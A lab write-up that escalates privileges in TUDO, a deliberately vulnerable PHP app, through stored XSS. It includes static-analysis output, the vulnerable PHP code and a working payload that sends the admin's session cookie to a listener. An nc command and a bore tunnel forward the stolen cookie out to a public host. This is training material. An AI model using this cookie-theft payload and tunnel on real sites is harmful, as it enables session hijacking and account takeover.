





# Privilege escalation on TUDO
Writeup for PE in [TUDO](https://github.com/bmdyy/tudo) thru stored XSS attack.

## Setup

Start the vulnerable app usind Docker.

```sh
docker compose up -d
```

Open the app on http://localhost:8000. TUDO's developer provided us with some user credentials, as of now, we are not able to create our own user.

| username | password |
| -------- | -------- |
| admin    | admin    |
| user1    | user1    |
| user2    | user2    |
| user3    | user3    |


Login page:


Admin index.php


User index.php


User's profile


## Static code analysis

Lets first run static analysis on our apps code, using [progpilot](https://github.com/designsecurity/progpilot).


For simplicity, use a new docker container with php cli.

```sh
docker run --rm -it -v "$(pwd)":/app -w /app php:8.2-cli bash
```

Run the static analysis on the app:

```sh
vendor/bin/progpilot --configuration progpilot.yml app/
```

Outpout of which is 


```json
[
    {
        "source_name": [
            "$userObj"
        ],
        "source_line": [
            5
        ],
        "source_column": [
            102
        ],
        "source_file": [
            "\/app\/app\/admin\/import_user.php"
        ],
        "sink_name": "unserialize",
        "sink_line": 7,
        "sink_column": 183,
        "sink_file": "\/app\/app\/admin\/import_user.php",
        "vuln_name": "code_injection",
        "vuln_cwe": "CWE_95",
        "vuln_id": "8fc9c5141674d34986c3ad4c55f46bbf0fca8b34d00e4e6ffe7a56d1faa06886",
        "vuln_type": "taint-style"
    },
    {
        "source_name": [
            "$template"
        ],
        "source_line": [
            34
        ],
        "source_column": [
            826
        ],
        "source_file": [
            "\/app\/app\/admin\/update_motd.php"
        ],
        "sink_name": "echo",
        "sink_line": 41,
        "sink_column": 1214,
        "sink_file": "\/app\/app\/admin\/update_motd.php",
        "vuln_name": "xss",
        "vuln_cwe": "CWE_79",
        "vuln_id": "f6c3d43346bf5abd00f9aaba20edd103aed3adcab3365022db10c5d7fa991a6e",
        "vuln_type": "taint-style"
    },
    {
        "source_name": [
            "$username"
        ],
        "source_line": [
            9
        ],
        "source_column": [
            219
        ],
        "source_file": [
            "\/app\/app\/forgotusername.php"
        ],
        "sink_name": "pg_query",
        "sink_line": 12,
        "sink_column": 311,
        "sink_file": "\/app\/app\/forgotusername.php",
        "vuln_name": "sql_injection",
        "vuln_cwe": "CWE_89",
        "vuln_id": "2b23136e94bac002cf0463d4d4cc542ebff3606cd8ec7b0ec0380f5b292924d9",
        "vuln_type": "taint-style"
    },
    {
        "source_name": [
            "$row[0]"
        ],
        "source_line": [
            27
        ],
        "source_column": [
            938
        ],
        "source_file": [
            "\/app\/app\/index.php"
        ],
        "sink_name": "echo",
        "sink_line": 27,
        "sink_column": 931,
        "sink_file": "\/app\/app\/index.php",
        "vuln_name": "xss",
        "vuln_cwe": "CWE_79",
        "vuln_id": "3a68b55c8ae8eda5de91aaa8aa0880a7bb9d7ba923c1597389992a68ac8e918b",
        "vuln_type": "taint-style"
    },
    {
        "source_name": [
            "$row[1]"
        ],
        "source_line": [
            28
        ],
        "source_column": [
            991
        ],
        "source_file": [
            "\/app\/app\/index.php"
        ],
        "sink_name": "echo",
        "sink_line": 28,
        "sink_column": 984,
        "sink_file": "\/app\/app\/index.php",
        "vuln_name": "xss",
        "vuln_cwe": "CWE_79",
        "vuln_id": "2c693647531d62fe2de26cdb8e16ca8c53258365693737161a4157babe216a88",
        "vuln_type": "taint-style"
    },
    {
        "source_name": [
            "$row[2]"
        ],
        "source_line": [
            29
        ],
        "source_column": [
            1044
        ],
        "source_file": [
            "\/app\/app\/index.php"
        ],
        "sink_name": "echo",
        "sink_line": 29,
        "sink_column": 1037,
        "sink_file": "\/app\/app\/index.php",
        "vuln_name": "xss",
        "vuln_cwe": "CWE_79",
        "vuln_id": "565573a67fd66b40d3a10dd9b56a72b7d8774e1498bc50381dee66a4b0efddbf",
        "vuln_type": "taint-style"
    },
    {
        "source_name": [
            "$row[3]"
        ],
        "source_line": [
            30
        ],
        "source_column": [
            1097
        ],
        "source_file": [
            "\/app\/app\/index.php"
        ],
        "sink_name": "echo",
        "sink_line": 30,
        "sink_column": 1090,
        "sink_file": "\/app\/app\/index.php",
        "vuln_name": "xss",
        "vuln_cwe": "CWE_79",
        "vuln_id": "070c93e86e07ebf463b8cd7dd28a75d968acce46443bb492f214c5a5def6c428",
        "vuln_type": "taint-style"
    },
    {
        "source_name": [
            "$row[1]",
            "$row[2]"
        ],
        "source_line": [
            61,
            61
        ],
        "source_column": [
            2490,
            2517
        ],
        "source_file": [
            "\/app\/app\/index.php",
            "\/app\/app\/index.php"
        ],
        "sink_name": "echo",
        "sink_line": 61,
        "sink_column": 2469,
        "sink_file": "\/app\/app\/index.php",
        "vuln_name": "xss",
        "vuln_cwe": "CWE_79",
        "vuln_id": "d3a0deb1e1a4306cae5e1e66dd18b0f5eca9dbdb02cfd0eae5ac4d87395fd592",
        "vuln_type": "taint-style"
    },
    {
        "source_name": [
            "$htmlentities_return"
        ],
        "source_line": [
            80
        ],
        "source_column": [
            3340
        ],
        "source_file": [
            "\/app\/app\/index.php"
        ],
        "sink_name": "echo",
        "sink_line": 80,
        "sink_column": 3333,
        "sink_file": "\/app\/app\/index.php",
        "vuln_name": "xss",
        "vuln_cwe": "CWE_79",
        "vuln_id": "a5330768485feb164df4e9808966765c78cd38c6b932c4d0076b6baca01649a2",
        "vuln_type": "taint-style"
    },
    {
        "source_name": [
            "$htmlentities_return"
        ],
        "source_line": [
            81
        ],
        "source_column": [
            3407
        ],
        "source_file": [
            "\/app\/app\/index.php"
        ],
        "sink_name": "echo",
        "sink_line": 81,
        "sink_column": 3400,
        "sink_file": "\/app\/app\/index.php",
        "vuln_name": "xss",
        "vuln_cwe": "CWE_79",
        "vuln_id": "dd04c4a52fe2be27cd9ce19a049c154bd687aca8208724f31389d2120d12b7b6",
        "vuln_type": "taint-style"
    },
    {
        "source_name": [
            "$htmlentities_return"
        ],
        "source_line": [
            82
        ],
        "source_column": [
            3474
        ],
        "source_file": [
            "\/app\/app\/index.php"
        ],
        "sink_name": "echo",
        "sink_line": 82,
        "sink_column": 3467,
        "sink_file": "\/app\/app\/index.php",
        "vuln_name": "xss",
        "vuln_cwe": "CWE_79",
        "vuln_id": "acbd9d81b3286679c1fe1e936f6b9ef3c19c9a95d376824f26c8d4e85abe0bb9",
        "vuln_type": "taint-style"
    },
    {
        "source_name": [
            "$row[1]"
        ],
        "source_line": [
            40
        ],
        "source_column": [
            1439
        ],
        "source_file": [
            "\/app\/app\/profile.php"
        ],
        "sink_name": "echo",
        "sink_line": 40,
        "sink_column": 1439,
        "sink_file": "\/app\/app\/profile.php",
        "vuln_name": "xss",
        "vuln_cwe": "CWE_79",
        "vuln_id": "6562343d31bd8ffaa7c92bbeaad965ccc0e71570bbbbd36b9d631d22ceb79feb",
        "vuln_type": "taint-style"
    },
    {
        "source_name": [
            "$row[2]"
        ],
        "source_line": [
            42
        ],
        "source_column": [
            1584
        ],
        "source_file": [
            "\/app\/app\/profile.php"
        ],
        "sink_name": "echo",
        "sink_line": 42,
        "sink_column": 1584,
        "sink_file": "\/app\/app\/profile.php",
        "vuln_name": "xss",
        "vuln_cwe": "CWE_79",
        "vuln_id": "07db14c959c04b552c0d55cb06c242c49ec6e39fff920b476a63b74d442fe0b6",
        "vuln_type": "taint-style"
    },
    {
        "source_name": [
            "$row[3]"
        ],
        "source_line": [
            44
        ],
        "source_column": [
            1738
        ],
        "source_file": [
            "\/app\/app\/profile.php"
        ],
        "sink_name": "echo",
        "sink_line": 44,
        "sink_column": 1738,
        "sink_file": "\/app\/app\/profile.php",
        "vuln_name": "xss",
        "vuln_cwe": "CWE_79",
        "vuln_id": "3171b27ba9ad6c8f36d932173976c0d1c5f83c5e2d56786499b511391a625497",
        "vuln_type": "taint-style"
    },
    {
        "source_name": [
            "$_GET[\"token\"]"
        ],
        "source_line": [
            77
        ],
        "source_column": [
            2766
        ],
        "source_file": [
            "\/app\/app\/resetpassword.php"
        ],
        "sink_name": "echo",
        "sink_line": 77,
        "sink_column": 2766,
        "sink_file": "\/app\/app\/resetpassword.php",
        "vuln_name": "xss",
        "vuln_cwe": "CWE_79",
        "vuln_id": "d0adfe74035dd960628ccbe2a1f858038b5203291ce0ac943e61ce9ade57042b",
        "vuln_type": "taint-style"
    }
]
```

From the output we can see that `profile.php` and `index.php` are succeptible to XSS attacks. Meaning we could craft a reflected or stored XSS payload, that may trigger on admins viewing of `index.php` to steal his credentials or sensitive data.

## Vulnerability
If we take a look at `php` code of the `profile.php` we can see the following code

```php
<?php 
    session_start();
    if (!isset($_SESSION['loggedin']) || !$_SESSION['loggedin'] == true) {
        header('location: /login.php');
        die();
    } 

    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        if (!isset($_POST['description'])) {
            $error = true;
        }
        else {
            $description = $_POST['description'];
            
            include('includes/db_connect.php');
            $ret = pg_prepare($db, "updatedescription_query", "update users set description = $1 where username = $2");
            $ret = pg_execute($db, "updatedescription_query", Array($description, $_SESSION['username']));
            $success = true;
        }
    }
?>
```

Users input for description is not sanitezed, therefore we could construct a payload to execute our JavaScript, potentially gaining information from an `admin` user.

Viewing the index.php code, we see the following:

```php
<?php if (isset($_SESSION['isadmin'])) {
                    include('includes/db_connect.php');
                    $ret = pg_query($db, "select * from users order by uid asc;");

                    echo '<h4>[Admin Section]</h4>';
                    echo '<table>';
                    echo '<tr><th>Uid</th><th>Username</th><th>Password (SHA256)</th><th>Description</th></tr>';
                    while ($row = pg_fetch_row($ret)) {
                        echo '<tr>';
                        echo '<td>'.$row[0].'</td>';
                        echo '<td>'.$row[1].'</td>';
                        echo '<td>'.$row[2].'</td>';
                        echo '<td>'.$row[3].'</td>';
                        echo '</tr>';
                    }
                    echo '</table><br>';
                    echo '<b>Import user:</b> <br>';
                ?>
                    <form action="admin/import_user.php" method="POST">
                        <input name="userobj" placeholder="User Object"> 
                        <input type="submit" value="Import User">
                    </form>
                <?php
                    echo '<hr>';
                } ?>

```

This code will render the rows fetched from the table, embeding the text into the `<td>` tag. Meaning we could execute a stored attack, where user inputs javascript as `description` text. Once  admin logs in and view `index.php`, it executes.

## Exploit Test

Lets first test our previous hypotesis, we will log in as `user1`, modify our description to, for an example, `<script>alert(1)</script>`, and check whether it executes when `admin` logs in.

#### Step 1

Log in as `user1`.


#### Step 2

Click the `user1` text displayed in top right corner, leading us to user1's profile.


#### Step 3

Construct payload as `<script>alert(1)</script>`, input that as a `description` text. After that, click update and log out.




#### Step 4

Log in as admin



#### Result

Our stored XSS payload triggers:




Meaning we can construct a payload, where we use a listener, that once the javascript publishes to it, we recieve admin's credentials. In this case we recieve `PHPSESSID`, we can later put in a cookie to log in as admin.


## Exploit

Repeat steps 1 and 2 from testing.

#### Step 3

Construct payload as `<script>new Image().src='http://127.0.0.1:9001/log?cookie='+document.cookie</script>"`, and update the profile's description

#### Step 4

Wait for admin to log in, but before that do the following:


```sh
nc -lvnp 9001
```

Use [bore](https://github.com/ekzhang/bore) (or any other tool you like) to forward TCP traffic.

```sh
bore local 9001 --to bore.pub
```

Now when `admin` logs in we get



Now we have the cookie, if we open the log in page again, and we just paste the cookie into the `PHPSESSID` in browser's `Application=>Cookies`

If we refresh the `login.php`, wew are immidiately moved to `index.php`, logged in as `admin`.



## Automated script

I have written a Python script that automates the exploit. Run it with:

```sh
python exploit.py -user1-pass USER_PASS -my-ip IP -p PORT
```

For example:

```sh
python exploit.py -u user1 127.0.0.1 9001
```
